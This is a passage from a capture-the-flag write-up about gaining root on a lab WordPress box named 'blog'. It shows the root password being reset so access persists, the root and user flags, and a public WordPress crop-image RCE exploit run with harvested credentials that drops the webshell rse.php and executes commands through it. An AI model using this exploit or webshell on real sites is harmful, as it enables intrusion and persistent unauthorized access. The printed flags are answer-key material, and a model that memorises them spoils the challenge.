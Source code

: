 After this we should be Root:
```bash
root@blog:/var/www/wordpress# 

id
```

In case of losing shell:
```bash
passwd root
```

Change password:
```bash
12345678
```

Check login:
```bash
cat /etc/ssh/sshd_config | grep -i permit
```


CTF:
```bash
root@blog:/root# cat root.txt 
9a0b2b618bef9bfa7ac28c1353d9f318

root@blog:/# cd media/
root@blog:/media# ls
usb
root@blog:/media# cd usb/
root@blog:/media/usb# ls
user.txt
root@blog:/media/usb# cat user.txt 
c8421899aae571f7af486492b71a8ab7
```


Other Method:

Bash 1:
```bash
git clone https://github.com/hadrian3689/wordpress_cropimage

cd wordpress_cropimage/

python3 wp_rce.py -h

python3 wp_rce.py -t 'http://blog.thm/' -u kwheel -p cutiepie1 -m twentytwenty
```

Output:
```bash
Dropping Backdoor rse.php
Backdoor URL: http://blog.thm/rse.php

Example Payload: http://blog.thm/rse.php?0=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
